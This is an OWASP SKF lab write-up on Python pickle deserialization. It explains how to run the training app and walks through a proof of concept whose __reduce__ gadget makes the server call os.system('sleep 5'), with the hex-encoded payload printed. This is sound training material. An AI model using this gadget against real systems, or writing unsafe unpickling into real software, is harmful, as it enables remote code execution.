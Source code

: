 # KBID xxx - Deserialization - Pickle-2

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution. 

Some use cases for python pickle:
1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence)
2) sending python data over a TCP connection in a multi-core or distributed system (marshalling)
3) storing python objects in a database
4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and check how it works.

![](.gitbook/assets/DESPickle1_1.png)

The user flow is very simple. The application is expecting a Pickle Serialized object for internal processing and, as expected, the deserialization is done in a unsafe way.

From wikipedia:
The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

The goal is to achieve Remote Code Execution through this weakness.


## Exploitation

### Step 1

Press F12 on the browser, to open the Developer Toolbar.Click on the Network tab.

![](.gitbook/assets/DESPickle1_2.png)

### Step 2

Open the challenge folder, *DES-Pickle*, and open the *exploit.py* file in a text editor.


```python
import pickle
import os
import base64
import binascii 


"""
Pickle is a python package used to 'serialize' an object to string format and store them to or load from a file.
Pickle is a simple stack language, which means pickle has a variable stack.
Every time it finished 'deserializing' an object it stores it on the stack.
Every time it reaches a '.' while 'deserializing', it pop a variable from the stack.
Besides, pickle has a temperary memo, like a clipboard.
'p0', 'p1' means put the top obj on the stack to memo and refer it as '0' or '1'
'g0', 'g1' act as get obj '0' or '1'
"""

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))

```

This code creates a Pickle serialized object of *os.system* call passing *sleep 5* as argument. The unserialization of this class should lead the system to sleep for 5 seconds.

Let's run the exploit and see the output:

```bash
python3 exploit.py

b'80049522000000000000008c05706f736978948c0673797374656d9493948c07736c656570203594859452942e'

```

*Note: Running the exploit script on Windows 10 might generate a invalid results. The one generated above can be used.*

### Step 3

Copy the output of previous step, paste it on the text field and click on *Submit Button*.

![](.gitbook/assets/DESPickle1_3.png)

Check the Network tab and note the *sync* request takes approximately 5 seconds to respond. It proves that the *sleep 5* command was executed successfully and the Remote Code Execution was achieved.

![](.gitbook/assets/DESPickle1_4.png)



## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" caption="" %}

